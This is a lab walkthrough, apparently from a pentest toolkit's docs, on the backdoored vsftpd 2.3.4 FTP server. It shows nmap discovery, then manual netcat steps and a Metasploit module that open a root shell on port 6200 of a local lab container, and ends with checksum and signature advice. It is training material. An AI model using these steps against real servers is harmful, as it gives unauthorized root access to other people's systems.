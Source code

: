 ## Vsftpd Backdoor

### Background

[Vsftpd](https://security.appspot.com/vsftpd.html) is a widely used FTP server. Despite the fact that [SFTP](https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol) has become that standard, there are still a ton of FTP servers out in the wild. Back in July of 2011, it was discovered that vsftpd 2.3.4 from the master site was patched with a backdoor.

Even though the sha256sum:

```
2a4bb16562e0d594c37b4dd3b426cb012aa8457151d4718a5abd226cef9be3a5 vsftpd-2.3.4.tar.gz
```

and check the gpg signature: 

```
$ gpg ./vsftpd-2.3.4.tar.gz.asc
gpg: Signature made Tue 15 Feb 2011 02:38:11 PM PST using DSA key ID 3C0E751C
gpg: BAD signature from "Chris Evans <chris@scary.beasts.org>"
```

are invalid, this version still spread across the internet.

How do you use this back door? Simply append a smiley face to the end of your username:)

### Setup

Start the penkit vsftpd server:

```bash
$ penkit start vsftpd:2.3.4
cc30859095aaa6780d6f87cfa43d5b2cad09d76b480d5c3b5619aa468296526d
```

Verify that server is running:

```bash
$ penkit ps
# or
$ penkit ping vsftpd
```

### Discovery

We will use `penkit nmap` to see if our target is vulnerable:

```bash
$ penkit nmap -sV penkit
Starting Nmap 6.47 ( http://nmap.org ) at 2017-03-15 12:08 EDT
Nmap scan report for penkit
Host is up (0.00029s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```

If the version is `vsftpd 2.3.4` then there is a chance that this particular instance of vsftpd is patched with the backdoor.


### Exploit

You can do this exploit manually:

```bash
$ penkit netcat vsftpd 21
220 (vsFTPd 2.3.4)
# Note, you will not have a bash prompt. You must type 'user anyuser:)' 
user penny:)
331 Please specify the password.
# Same here. Type 'pass anypass'
pass thepenguin
```

It hangs, so open another terminal, and:

```bash
$ penkit netcat vsftpd 6200
# Note, you will not have a bash prompt. Just start typing commands.
hostname
vsftpd

whoami
root

exit
```

Or you can use just use metasploit:

```bash
$ penkit metasploit
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > set RHOST vsftpd
msf exploit(vsftpd_234_backdoor) > run

[*] vsftpd:21 - Banner: 220 (vsFTPd 2.3.4)
[*] vsftpd:21 - USER: 331 Please specify the password.
[+] vsftpd:21 - Backdoor service has been spawned, handling...
[+] vsftpd:21 - UID: uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[*] Found shell.
[*] Command shell session 1 opened (172.23.0.3:51443 -> 172.23.0.2:6200) at 2017-03-15 16:04:57 +0000

# Note, you will not have a bash prompt. Just start typing commands.
whoami
root
```

### Summary

This is a pretty silly backdoor but it goes to show you that unless you are vigilant about verifying that you have genuine software, you are dramatically increasing your risk. While the person who developed this backdoor was probably trolling, this sort of attack could obviously be much sneakier.

You can mitigate this risk by:

- Always checking your checksums
- Always verifying your signatures

More information can be found here:

- https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor
